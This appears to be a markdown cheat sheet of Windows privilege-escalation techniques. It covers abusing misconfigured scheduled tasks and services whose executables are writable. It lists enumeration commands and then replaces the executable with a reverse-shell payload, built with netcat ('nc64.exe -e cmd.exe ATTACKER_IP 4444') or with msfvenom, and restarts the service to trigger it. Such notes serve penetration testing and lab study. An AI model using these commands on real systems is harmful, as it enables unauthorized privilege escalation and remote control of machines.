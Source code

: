 ## Abusing Scheduled Tasks Misconfigurations
Misconfigured task may allow attacker to modify executable file.

Retrieve detailed information about services:
```bat
schtasks /query /tn <task_name> /fo list /v
```

Check the file permissions on the executable:
```bat
icacls C:\<path_to_name_file>.bat
```

If permissions allow, modify executable by replacing it with malicious payload.

Prepare payload:
```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > c:\<path_to_name_file>.bat
OR
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe -o revshell.exe
```

## Abusing Service Misconfigurations
Misconfigured service may allow attacker to modify executable file.

All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`.

Retrieve detailed information about service (in cmd):
```bat
sc qc <service_name>
```
Retrieve detailed information about service (in powershell):
```powershell
sc.exe qc <service_name>
```

### Insecure Permissions on Service Executable

Check the file permissions on the executable:
```bat
icacls C:\<path_to_name_file>.bat
```

If permissions allow, modify executable by replacing it with malicious payload.

Prepare payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o revshell-svc.exe
```

Restart service (if possible):
```bat
sc stop <service_name>
sc start <service_name>
```
